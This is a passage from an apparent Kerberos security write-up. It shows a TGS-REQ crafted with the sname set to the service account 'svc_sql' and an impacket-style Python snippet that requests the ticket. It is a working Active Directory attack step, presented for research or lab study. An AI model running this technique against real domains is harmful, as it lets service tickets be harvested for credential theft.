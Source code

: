 ![](./assets/77fc9a02ccbbd46d014744870b2def4f.png)

Since the `sname` and `cname` fields appear to be identical, we can attempt to send a `TGS-REQ` with the `sname` field set to a single `KerberosString` object with the value of the service account name.

The [following script](https://gist.github.com/gatariee/dd9063dd2dbe42637edd589c647661ae) can be used to do this, the following portion is the relevant part of the script that does this:

```python
sname_string = "svc_sql"
principalName = Principal(
    sname_string, type=constants.PrincipalNameType.NT_PRINCIPAL.value
)

tgs, cipher, oldSessionKey, sessionKey = getKerberosTGS(
    principalName, DOMAIN, None, TGT["KDC_REP"], TGT["cipher"], TGT["sessionKey"]
)
```

We'll see that our `TGS-REQ` is sent with the `sname-string` field set to a single `KerberosString` object with the value of `svc_sql`.

![](./assets/6c56a7ffb77608f2c9e7e220081f4e34.png)
